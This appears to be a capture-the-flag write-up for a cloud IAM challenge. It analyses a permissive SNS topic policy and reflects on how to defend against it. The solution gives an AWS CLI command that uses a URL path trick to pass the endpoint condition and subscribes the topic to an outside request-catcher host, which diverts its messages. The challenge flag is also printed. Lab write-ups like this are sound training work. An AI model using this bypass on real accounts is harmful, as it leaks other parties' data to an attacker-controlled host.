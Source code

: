 # Challenge number
3

## Challenge Statement
Enable Push Notifications
We got a message for you. Can you get it?
## IAM Policy 
```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```              
### write a short analysis about the IAM policy here
```
* What do I have access to?
Subscribe to an SNS topic
* What don't I have access to?
Modify the SNS topic permissions.
* What do I find interesting?
The policy allows unauthorized subscriptions
* etc
```

## Solution
Ran the following command to subscribe
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint 'https://sn.requestcatcher.com/test@tbic.wiz.io'

The flag: {wiz:subscribed-successfully}

## Reflection
* What was your approach?
Attempted to subscribe to an SNS topic using available permissions.
* What was the biggest challenge?
Determining how to catch the request.
* How did you overcome the challenges?
Explored "Request Catcher" which is a tool for catching requests.
* What led to the break through?
The ability to retrieve messages without authentication confirmed that the queue lacked proper access control.
* On the blue side, how can the learning be used to properly defend the important assets?
Restrict sns:Subscribe permissions to trusted users only.

